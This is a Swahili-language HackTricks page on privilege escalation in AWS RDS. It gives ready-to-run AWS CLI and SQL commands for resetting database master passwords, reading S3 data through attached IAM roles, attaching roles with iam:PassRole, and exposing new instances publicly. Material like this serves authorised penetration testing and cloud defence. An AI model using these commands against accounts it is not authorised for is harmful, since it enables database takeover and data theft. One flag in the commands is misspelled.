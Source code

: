 # AWS - Ukarabati wa Mamlaka ya RDS

<details>

<summary><strong>Jifunze kuhusu udukuzi wa AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Shiriki mbinu zako za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>

## RDS - Huduma ya Hifadhidata ya Uhusiano

Kwa habari zaidi kuhusu RDS angalia:

{% content-ref url="../aws-services/aws-databases/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-databases/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

Kwa idhini hiyo, muhusika anaweza **kurekebisha nenosiri la mtumiaji wa msingi**, na kuingia ndani ya hifadhidata:
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
{% hint style="warning" %}
Utahitaji kuweza **kuwasiliana na database** (kawaida wanapatikana tu kutoka kwenye mitandao ya ndani).
{% endhint %}

**Athari Inayowezekana:** Pata habari nyeti ndani ya mabadiliko.

### rds-db:connect

Kulingana na [**nyaraka**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html) mtumiaji mwenye idhini hii anaweza kuunganisha kwenye kifaa cha DB.

### Tumia Vibali vya IAM vya Jukumu la RDS

#### Postgresql (Aurora)

{% hint style="success" %}
Ikiwa unakimbia **`SELECT datname FROM pg_database;`** na unapata database iliyoitwa **`rdsadmin`** unajua uko ndani ya **database ya AWS postgresql**.
{% endhint %}

Kwanza unaweza kuangalia ikiwa database hii imekuwa ikitumika kuwaunganisha na huduma yoyote ya AWS nyingine. Unaweza kuangalia hili ukitazama upanuzi uliofungwa:
```sql
SELECT * FROM pg_extension;
```
Ikiwa unapata kitu kama **`aws_s3`** unaweza kudhani hii database ina **aina fulani ya ufikiaji juu ya S3** (kuna nyongeza nyingine kama vile **`aws_ml`** na **`aws_lambda`**).

Pia, ikiwa una ruhusa ya kukimbia **`aws rds describe-db-clusters`** unaweza kuona ikiwa **kituo kina jukumu la IAM limeambatishwa** katika uga wa **`AssociatedRoles`**. Ikiwa lipo, unaweza kudhani kwamba database ilikuwa **imeandaliwa kupata huduma zingine za AWS**. Kulingana na **jina la jukumu** (au ikiwa unaweza kupata **ruhusa** za jukumu hilo) unaweza **kudhani** ufikiaji wa ziada ambao database ina.

Sasa, ili **kusoma faili ndani ya ndoo** unahitaji kujua njia kamili. Unaweza kuisoma kwa:
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
Ikiwa ungekuwa na **mikopo ya AWS ya moja kwa moja** unaweza pia kuitumia kufikia data ya S3 na:
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
{% hint style="info" %}
Postgresql **haina haja ya kubadilisha kipengele chochote cha kikundi cha parameta** ili uweze kupata upatikanaji wa S3.
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
Ndani ya mysql, ikiwa unatekeleza swali **`SELECT User, Host FROM mysql.user;`** na kuna mtumiaji anayeitwa **`rdsadmin`**, unaweza kudhani uko ndani ya **AWS RDS mysql db**.
{% endhint %}

Ndani ya mysql tekeleza **`onyesha parameta;`** na ikiwa parameta kama **`aws_default_s3_role`**, **`aurora_load_from_s3_role`**, **`aurora_select_into_s3_role`**, zina thamani, unaweza kudhani kuwa database imeandaliwa kupata data za S3.

Pia, ikiwa una ruhusa ya kutekeleza **`aws rds describe-db-clusters`** unaweza kuangalia ikiwa kikundi kina **jukumu lililoambatishwa**, ambalo kawaida hufanya maana ya kupata huduma za AWS).

Sasa, ili **kusoma faili ndani ya ndoo** unahitaji kujua njia kamili. Unaweza kuisoma kwa:
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

Mshambuliaji mwenye ruhusa za `rds:AddRoleToDBCluster` na `iam:PassRole` anaweza **kuongeza jukumu lililoteuliwa kwa kifaa cha RDS kilichopo**. Hii inaweza kuruhusu mshambuliaji **kupata data nyeti** au kuhariri data ndani ya kifaa hicho.
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**Athari Kubwa**: Kupata ufikivu wa data nyeti au mabadiliko yasiyoruhusiwa kwenye kifaa cha RDS.\
Tambua kwamba baadhi ya DBs inahitaji mipangilio ya ziada kama vile Mysql, ambayo inahitaji kufafanua jukumu la ARN katika vikundi vya aprameter pia.

### `rds:CreateDBInstance`

Kwa ruhusa hii pekee, mshambuliaji anaweza kuunda **kifaa kipya ndani ya kikundi** kilichopo tayari na kina **jukumu la IAM** limeambatanishwa. Hataweza kubadilisha nenosiri la mtumiaji mkuu, lakini anaweza kufichua kifaa kipya cha database kwa mtandao:
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
KAZI: Jaribu
{% endhint %}

Mshambuliaji mwenye ruhusa za `rds:CreateDBInstance` na `iam:PassRole` anaweza **kuunda kipengee kipya cha RDS na jukumu lililobainishwa limeambatanishwa**. Mshambuliaji anaweza kisha **kupata data nyeti** au kuhariri data ndani ya kipengee hicho.

{% hint style="warning" %}
Baadhi ya mahitaji ya jukumu/mtindo wa kipengee cha kuambatanisha (kutoka [**hapa**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)):

* Jukumu linapaswa kuwepo katika akaunti yako.
* Jukumu linapaswa kuwa na jukumu la IAM ambalo Amazon EC2 ina ruhusa ya kudai.
* Jina la mtindo wa kipengee na jina la jukumu la IAM lililohusishwa lazima lianze na kipimo cha `AWSRDSCustom`.
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**Athari Inayowezekana**: Kupata ufikivu wa data nyeti au kufanya mabadiliko yasiyoruhusiwa kwenye kifaa cha RDS.

### `rds:AddRoleToDBInstance`, `iam:PassRole`

Mshambuliaji mwenye ruhusa za `rds:AddRoleToDBInstance` na `iam:PassRole` anaweza **kuongeza jukumu lililoteuliwa kwenye kifaa cha RDS kilichopo**. Hii inaweza kuruhusu mshambuliaji **kupata ufikivu wa data nyeti** au kufanya mabadiliko kwenye data ndani ya kifaa. 

{% hint style="warning" %}
Kifaa cha DB lazima kiwe nje ya kikundi kwa hili
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
**Matokeo Yanayowezekana**: Upatikanaji wa data nyeti au mabadiliko yasiyoruhusiwa kwenye data katika kifaa cha RDS.  

<details>

<summary><strong>Jifunze kuhusu udukuzi wa AWS kutoka mwanzo hadi mtaalamu na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalamu wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Shiriki mbinu zako za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
